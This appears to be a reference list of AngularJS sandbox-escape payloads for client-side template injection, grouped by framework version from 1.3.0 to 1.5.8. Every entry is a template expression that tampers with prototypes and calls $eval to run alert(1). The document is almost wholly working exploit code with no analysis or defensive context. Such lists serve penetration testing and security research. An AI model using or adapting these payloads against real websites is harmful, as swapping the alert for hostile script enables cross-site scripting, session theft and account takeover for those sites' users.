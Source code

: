 Angular 1.5.0 - 1.5.8
```
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

Angular 1.4.0 - 1.4.9
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

Angular 1.3.20
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

Angular 1.3.19
```
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;
    $eval('x=alert(1)//');
}}
```

Angular 1.3.3 - 1.3.18
```
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

Angular 1.3.1 - 1.3.2
```
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf;
    $eval('x=alert(1)//');
}}
```

Angular 1.3.0
```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```
